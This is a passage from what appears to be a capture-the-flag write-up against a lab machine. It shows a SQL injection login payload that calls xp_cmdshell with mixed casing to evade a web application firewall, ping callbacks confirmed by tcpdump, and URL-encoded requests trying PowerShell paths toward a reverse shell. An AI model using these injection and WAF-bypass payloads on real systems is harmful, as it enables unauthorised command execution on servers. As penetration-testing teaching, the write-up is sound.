 #### WAF Bypass

It’s not trivial to see, but it’s always a good idea to play with casing on known risky commands like `xp_cmdshell`. That’s the kind of thing that a web application firewall would key on.

When I change the injection to `3;EXEC xp_cmDshElL "ping 10.10.14.6"-- -`, it hangs for five seconds, and there’s ICMP at `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
19:14:48.413133 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 13, length 40
19:14:48.413227 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 13, length 40
19:14:49.424087 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 14, length 40
19:14:49.424126 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 14, length 40
19:14:50.439731 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 15, length 40
19:14:50.439775 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 15, length 40
19:14:51.455371 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 16, length 40
19:14:51.455400 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 16, length 40

```

### Reverse Shell

#### Finding PowerShell

I’ll try the same `ping` command, but invoked with PowerShell (I’ve reordered the parameters to make the changing one more obvious here):

```

logintype=3%3bexecute+xp_cmDshElL+'powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login

```

I don’t see anything come back. This could be because PowerShell isn’t in the path, or PowerShell is being blocked. I can try calling it by full path:

```

logintype=3%3bexecute+xp_cmDshElL+'C:\Windows\system32\windowspowershell\v1.0\powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login

```

Still nothing. I’ll try the 32-bit version located at `C:\Windows\SysWow64\WindowsPowerShell\v1.0\PowerShell.exe`:

```

logintype=3%3bexecute+xp_cmDshElL+'C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe+-c+ping+10.10.14.6'%3b&username=admin&password=admin&rememberme=ON&B1=Login

```
